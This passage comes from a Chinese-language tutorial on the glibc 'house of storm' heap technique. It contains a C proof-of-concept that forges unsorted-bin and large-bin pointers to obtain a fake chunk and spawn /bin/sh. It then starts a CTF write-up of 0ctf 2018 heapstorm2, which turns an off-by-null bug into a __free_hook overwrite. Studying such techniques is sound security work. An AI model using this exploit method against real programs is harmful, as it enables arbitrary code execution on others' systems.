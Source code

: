 ```c
    unsorted_bin = malloc(0x4e8);
    // unsorted_bin 归位
    free(unsorted_bin);

    fake_chunk = global_container.sh - 0x10;

    ((size_t *)unsorted_bin)[0] = 0; // unsorted_bin->fd
    ((size_t *)unsorted_bin)[1] = (size_t)fake_chunk; // unsorted_bin->fd

    ((size_t *)large_bin)[0] = 0; // large_bin->fd
    // 用于创建假块的“bk”，以避免从未排序的bin解链接时崩溃
    ((size_t *)large_bin)[1] = (size_t)fake_chunk + 8; // large_bin->fd
    ((size_t *)large_bin)[2] = 0; // large_bin->fd_nextsize
    // 用于使用错误对齐技巧创建假块的“大小”
    ((size_t *)large_bin)[3] = (size_t)fake_chunk - 0x18 - 2; // large_bin->bk_nextsize

    ptr = malloc(0x58);
    strncpy(ptr, "/bin/sh", 0x58 - 1);
    system(global_container.sh);

    return 0;
}
```

 原理和有PIE的情况是一样的，但是受随机化的影响，chunk的地址可能是`0x610000-0x25d0000`的任意一个内存页，所以概率是`1/32`，相对于有PIE的`1/3`的概率要小很多。 



#### 0ctf_2018_heapstorm2

程序提供了申请、编辑、释放、打印的功能，且打印只有在满足一定条件的情况下才会进行，默认时无法进行打印的。程序调用了`mallopt(1, 0)`使得程序没有fastbin，且通过mmap出来的内存地址`0x13370800`管理堆块，漏洞只有在编辑函数中存在一个`off-by-null`的漏洞。

可以使用`off-by-null`漏洞构造overlap chunk，但是无法泄露地址，只有一个已知的地址`0x13370800`，因此可以利用house of storm实现任意地址申请，将`0x13370800`申请出来，将该处内存块申请出来以后，我们就可以修改相应数据来实现可以打印，后续也可修改指针来实现任意地址读写，最后修改`__free_hook`为`system`拿到shell。

**init_data**
